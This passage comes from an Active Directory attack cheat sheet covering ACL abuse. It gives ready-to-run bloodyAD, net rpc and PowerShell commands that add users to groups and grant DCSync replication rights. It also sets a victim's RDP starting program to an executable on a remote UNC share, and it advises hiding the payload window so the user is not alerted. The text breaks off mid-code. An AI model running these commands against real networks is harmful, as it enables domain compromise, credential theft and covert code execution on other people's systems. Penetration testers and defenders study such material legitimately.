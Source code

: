 		net rpc group ADDMEM "GROUP NAME" UserToAdd -U 'hacker%MyPassword123' -W DOMAIN -I [DC IP]
		```

### GenericWrite and Remote Connection Manager

> Now let’s say you are in an Active Directory environment that still actively uses a Windows Server version that has RCM enabled, or that you are able to enable RCM on a compromised RDSH, what can we actually do ? Well each user object in Active Directory has a tab called ‘Environment’.
>  
> This tab includes settings that, among other things, can be used to change what program is started when a user connects over the Remote Desktop Protocol (RDP) to a TS/RDSH in place of the normal graphical environment. The settings in the ‘Starting program’ field basically function like a windows shortcut, allowing you to supply either a local or remote (UNC) path to an executable which is to be started upon connecting to the remote host. During the logon process these values will be queried by the RCM process and run whatever executable is defined. - https://sensepost.com/blog/2020/ace-to-rce/

:warning: The RCM is only active on Terminal Servers/Remote Desktop Session Hosts. The RCM has also been disabled on recent version of Windows (>2016), it requires a registry change to re-enable.
* Windows/Linux:
	```ps1
	bloodyAD --host 10.10.10.10 -d example.lab -u hacker -p MyPassword123 set object vulnerable_user msTSInitialProgram -v '\\1.2.3.4\share\file.exe'
	bloodyAD --host 10.10.10.10 -d example.lab -u hacker -p MyPassword123 set object vulnerable_user msTSWorkDirectory -v 'C:\'
	```
* Windows only:
	```ps1
	$UserObject = ([ADSI]("LDAP://CN=User,OU=Users,DC=ad,DC=domain,DC=tld"))
	$UserObject.TerminalServicesInitialProgram = "\\1.2.3.4\share\file.exe"
	$UserObject.TerminalServicesWorkDirectory = "C:\"
	$UserObject.SetInfo()
	```

NOTE: To not alert the user the payload should hide its own process window and spawn the normal graphical environment.

## WriteDACL

To abuse `WriteDacl` to a domain object, you may grant yourself the DcSync privileges. It is possible to add any given account as a replication partner of the domain by applying the following extended rights `Replicating Directory Changes/Replicating Directory Changes All`.

* WriteDACL on Domain:
	* Windows/Linux:
		```ps1
		# Give DCSync right to the principal identity
		bloodyAD.py --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B add dcsync user2
		
		# Remove right after DCSync
		bloodyAD.py --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B remove dcsync user2
		```
	* Windows only: 
		```ps1
		# Give DCSync right to the principal identity
		Import-Module .\PowerView.ps1
		$SecPassword = ConvertTo-SecureString 'user1pwd' -AsPlainText -Force
		$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN.LOCAL\user1', $SecPassword)